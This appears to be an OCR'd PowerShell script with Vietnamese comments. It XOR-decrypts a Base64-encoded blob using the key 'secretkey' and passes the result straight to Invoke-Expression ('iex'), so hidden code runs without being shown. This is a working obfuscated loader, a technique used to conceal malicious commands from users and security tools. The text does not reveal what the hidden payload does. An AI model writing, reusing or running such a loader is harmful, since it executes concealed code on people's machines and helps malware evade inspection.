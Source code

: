 # Định nghĩa hàm XOR để giải mã
function XOR-Decryption {
    param (
        [string]$inputString,
        [string]$key
    )

    # Chuyển đổi nội dung đã mã hóa từ Base64 sang mảng byte
    $inputBytes = [System.Convert]::FromBase64String($inputString)
    $keyBytes = [System.Text.Encoding]::UTF8.GetBytes($key)

    $outputBytes = @()
    for ($i = 0; $i -lt $inputBytes.Length; $i++) {
        # XOR từng byte với byte tương ứng từ khóa
        $xorByte = $inputBytes[$i] -bxor $keyBytes[$i % $keyBytes.Length]
        $outputBytes += [System.Convert]::ToByte($xorByte)
    }

    # Chuyển đổi mảng byte đã XOR thành chuỗi UTF-8
    $outputString = [System.Text.Encoding]::UTF8.GetString($outputBytes)
    return $outputString
}

# Nội dung đã mã hóa dưới dạng Base64
$encryptedText = "VwRDT0VWAw0RGw0LGg0cAw0RGw0LGg0cAw0RGw0LGg0cAw0RGw0LGg0cAw0RUW9HAQYGAhUNMAoNBgAaH0VEUywNBAofDkguFgcxFxQBDhYNU0gWAAxUSQ0NBxUQSEpbGQQOXQIKBg0BCRAKFhcAHQsADgsNXQYMH0pAWARIRFdQXRERGBFWHgQKHEoQBBIXHwoCFksEGFRbU0g2AQA2ChYQEDUCABYdBQJzOgsVHQ4RRiABAxcGARYdBAtZVxYAAAwEHyYWHREGHBFaKAoXBwANBm8="

# Khóa XOR
$key = "secretkey"

# Giải mã nội dung bằng XOR
$decryptedContent = XOR-Decryption -inputString $encryptedText -key $key


# Thực thi nội dung giải mã
iex $decryptedContent
